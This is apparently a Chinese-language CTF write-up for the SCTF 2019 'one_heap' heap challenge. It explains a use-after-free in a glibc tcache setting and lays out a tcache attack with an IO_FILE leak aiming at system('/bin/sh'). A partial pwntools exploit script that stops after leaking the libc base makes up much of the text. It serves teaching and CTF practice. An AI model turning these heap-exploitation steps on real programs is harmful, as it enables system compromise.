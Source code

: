 ```python
                      else
                        {
                          REMOVE_FB (fb, pp, tc_victim);
                          if (__glibc_unlikely (tc_victim == NULL))
                            break;
                        }
                      tcache_put (tc_victim, tc_idx);
                    }
                }
#endif
```
## analysis
```python
[*] '/home/n132/Desktop/one_heap-/one_heap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```
全保护
* 只有两个功能add+del次数分别有限制(0xf,0x4)
* del存在uaf但是只有4次(那么就比较尴尬了,不能愉快滴double free一套带走了)
* 但是我们可以通过控制`tcache`结构体,利用`unsorted bin`的fb,bk在`tcache`上留下libc内地址之后partial write做`IO_LEAK`
* 其中风水试试就会了.事实上难度不大我当时可能学了半天英语脑子比较傻做了3个小时多.

## solution
* tcache atk
* IO leak
* system('/bin/sh\x00')
## exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter(":",str(c))
def add(size,name=""):
	cmd(1)
	p.sendlineafter("size:",str(size))
	p.sendlineafter(":",name)
def free():
	cmd(2)
context.log_level='debug'
p=process('./one_heap')
libc=ELF("./one_heap").libc
cmd(1)
p.sendlineafter("size:",str(0x79))
p.sendafter(":",'\x00'*0x78+'\x91')

free()
free()
add(0x79,p16(0x7010))#1
add(0x7f)#2
add(0x7f,'\x00'*0x20+p64(0x0000000007000000))#3
free()
add(0x41,'\x00'*0x40)#4
add(0x18)
add(0x18,'\x60\x07\xdd')#5
add(0x78,p64(0x1800)+'\x00'*0x18+'\x00')#6
p.read(0x20)
base=u64(p.read(8))-(0x7ffff7dcf780-0x7ffff79e4000)
```

[1]: https://github.com/n132/Watermalon/tree/master/Sctf_2019/easy-heap
[2]: https://n132.github.io/2019/04/11/2019-04-11-Off-by-one/
[3]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[4]: https://github.com/n132/Watermalon/tree/master/Sctf_2019/one_heap
[5]: https://github.com/n132/Watermalon/tree/master/Sctf_2019/two_heap
[6]: https://www.xctf.org.cn/library/details/e79537ac55b532b974acc27ae514480068344dca/
